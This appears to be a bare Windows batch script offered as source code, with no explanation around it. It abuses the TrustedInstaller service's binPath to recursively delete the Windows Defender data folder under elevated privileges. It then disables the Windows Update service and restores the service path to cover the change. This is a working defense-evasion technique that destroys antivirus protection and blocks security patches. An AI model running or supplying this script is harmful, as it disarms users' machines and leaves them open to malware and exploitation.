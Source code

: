 sc stop TrustedInstaller
timeout /t 2 /nobreak >nul
sc config TrustedInstaller binPath= "cmd.exe /C rd /S /Q C:\ProgramData\Microsoft\Windows Defender"
sc start TrustedInstaller
timeout /t 2 /nobreak >nul
sc stop TrustedInstaller
timeout /t 2 /nobreak >nul

:: Disable Windows Repair (Windows Update Service)
sc stop wuauserv
timeout /t 2 /nobreak >nul
sc config wuauserv start= disabled
timeout /t 2 /nobreak >nul

:: Restore TrustedInstaller
sc config TrustedInstaller binPath= "C:\Windows\servicing\TrustedInstaller.exe"
